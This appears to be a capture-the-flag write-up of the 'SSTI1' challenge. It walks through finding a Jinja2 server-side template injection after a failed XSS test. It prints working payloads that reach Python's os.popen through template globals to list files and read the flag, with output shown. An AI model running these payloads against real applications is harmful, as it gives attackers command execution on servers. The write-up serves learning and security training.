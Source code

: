 # 🧪 SSTI1

## 🔍 Observations

- A single input box was present.
- A warning label indicated that announcements are only shown to individual users.
- Initially suspected the input box might be vulnerable.

---

## 🧠 Thought Process

- First attempted a basic XSS payload:
  ```html
  <script>
    alert("hello");
  </script>
  ```
  Nothing happened — this led me to believe it might be a different type of vulnerability.
- Unsure how to proceed, I checked the **hint**, which mentioned:

  > _"Server Side Template Injection"_

- I hadn’t encountered SSTI before, so I began researching:  
  📚 [PortSwigger: SSTI Guide](https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack)

- I learned that SSTI occurs when user input is **evaluated inside server-side templates** without proper sanitization. This sounded familiar — I had seen templating behavior like this before but didn’t know it had a specific name.

- Using that article, I successfully identified the vulnerability in the challenge.  
  ![Template Identification](./images/image.png)  
  _(Image from PortSwigger’s guide)_

- The input field was using **Jinja2** (a Python templating engine), and the server was rendering the input directly — without sanitization.

---

## 🧨 Exploitation

- Since SSTI was new to me, I kept reading — the most helpful resource was:  
  💡 [OnSecurity: Server-Side Template Injection with Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

- This guide explained how Jinja2 exposes core functions like `__globals__`, and how unsanitized input can let an attacker access Python’s built-in modules.

- In Python, the `os` module is often available by default, so if accessible through the template, it can be used to run system commands.

### 🔧 Payloads Used:

1. **List files in the current directory:**

   ```jinja2
   {{ cycler.__init__.__globals__.os.popen("ls").read() }}
   ```

   Output:

   ```
   __pycache__  app.py  flag  requirements.txt
   ```

2. **Read the flag file:**
   ```jinja2
   {{ cycler.__init__.__globals__.os.popen("cat flag").read() }}
   ```

✅ This returned the flag and completed the challenge.

---

## 📝 What I Learned

- **SSTI (Server-Side Template Injection)**
  - What it is and how it works.
  - How to identify templating behavior that may be vulnerable.
  - The dangers of rendering unsanitized input in server-side templates.
  - Techniques for exploiting Jinja2-based SSTI vulnerabilities using Python internals.
